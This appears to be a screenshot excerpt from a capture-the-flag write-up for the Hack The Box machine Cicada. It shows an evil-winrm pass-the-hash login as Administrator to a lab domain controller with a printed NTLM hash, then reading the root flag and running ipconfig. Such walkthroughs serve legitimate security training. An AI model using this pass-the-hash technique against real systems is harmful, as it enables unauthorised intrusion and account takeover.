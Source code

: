 ```powershell
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator> hostname
CICADA-DC
*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 1B60-8905
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|
+---Documents
|   \---WindowsPowerShell
|       \---Scripts
|           \---InstalledScriptInfos
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Administrator> cat Desktop\root.txt
62a8e68f106b779f769ac47e48a1c5b5
*Evil-WinRM* PS C:\Users\Administrator> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::754b:9045:f7e8:966f
   Link-local IPv6 Address . . . . . : fe80::787b:ea5b:a66a:aac%6
   IPv4 Address. . . . . . . . . . . : 10.10.11.35
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:53c1%6
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator> 
```
